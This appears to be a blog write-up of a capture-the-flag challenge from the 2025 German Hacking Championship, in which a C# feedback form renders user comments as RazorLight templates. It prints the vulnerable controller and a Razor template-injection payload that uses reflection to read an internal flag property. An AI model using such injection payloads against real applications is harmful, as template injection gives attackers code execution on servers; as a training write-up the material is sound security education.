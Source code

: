 +++
date = '2025-10-03T11:34:57+02:00'
title = 'DHM 2025 - DotNett'
keywords = ['ctf']
+++

One of the challenges of the second iteration of the [German Hacking Championship](https://hacking-meisterschaft.de) was a web-based feedback form, written in C#.
The service contained an internal class `_Flag_` that we had to leak:

```csharp
internal class _Flag_ {
    internal static string FLAG => "DHM{fake}";
}
```

<!--more-->

The only input possibility was the feedback form.

{{< centerimage src="/posts/dotnett/feedback.png" alt="Dodge car" maxWidth="300px" >}}

The `FeedbackController` defines entry paths to submit and view our feedback.
The code stores our feedback in a dictionary called `Templates`, and redirects us to `/report?id={id}`, which renders the submitted comment as a Razor template.
Razor is a markup language for embedding .NET code in webpages, similarly to the templating engine of the Django framework.
Intuitively, template injection might be the solution.

```csharp {hl_lines=["29-42"]}
using Microsoft.AspNetCore.Mvc;
using RazorLight;
using System;
using System.Collections.Concurrent;
using System.Threading.Tasks;

namespace DHM_Feedback.Controllers {
    public class FeedbackController : Controller {
        private static readonly ConcurrentDictionary<string, string> Templates = new();
        private static readonly RazorLightEngine Engine = new RazorLightEngineBuilder()
            .UseMemoryCachingProvider()
            .Build();

        [HttpGet("/feedback")]
        public IActionResult Feedback() => View();

        [HttpGet("/")]
        public IActionResult Index() {
            return View("Index");
        }

        [HttpPost("/submit")]
        public IActionResult Submit([FromForm] string comment) {
            var id = Guid.NewGuid().ToString("N");
            Templates[id] = comment;
            return Redirect($"/report?id={id}");
        }

        [HttpGet("/report")]
        public async Task<IActionResult> Report(string id) {
            if (id == null || !Templates.ContainsKey(id)) {
                return NotFound("No template");
            }
            var template = Templates[id];
            string result;
            try {
                result = await Engine.CompileRenderStringAsync<object>(id, template, null);
            } catch (Exception ex) {
                result = "[error] " + ex.Message;
            }
            return Content(result, "text/html");
        }
    }
}
```

The following line is interesting:
```csharp
    result = await Engine.CompileRenderStringAsync<object>(id, template, null);
```

This is very problematic since the second argument of the function is the [template that will be render](https://github.com/toddams/RazorLight?tab=readme-ov-file).
Using user input as a template implies code execution.
To write C# in our feedback form, we can use the `@` symbol, which marks the transition from HTML to C#.
Using `@(_Flag._).FLAG`, we obtain as an output:

```
[error] Failed to compile generated Razor template: - (0:6) '_Flag_' is inaccessible due to its protection level See CompilationErrors for detailed information
```

The issue is here that we cannot reference `_Flag_` because it's internal.
We could, however, obtain the flag using reflection.
Reflection is a way to let a program inspect and interact with its own metadata and types at runtime.
This method allows to read private members of internal classes.
Since the code that contains this member is compiled into the `DHM_Feedback.dll`, we first obtain the `DHM_Feedback` assembly, reference the type and obtain the internal property `FLAG`:

```csharp
@using System.Reflection
@using System

@{
    var assembly = Assembly.Load("DHM_Feedback");
    var type = assembly.GetType("_Flag_");
    var prop = type.GetProperty("FLAG", BindingFlags.NonPublic | BindingFlags.Static);
    var flag = prop.GetValue(null);
    @flag
}
```
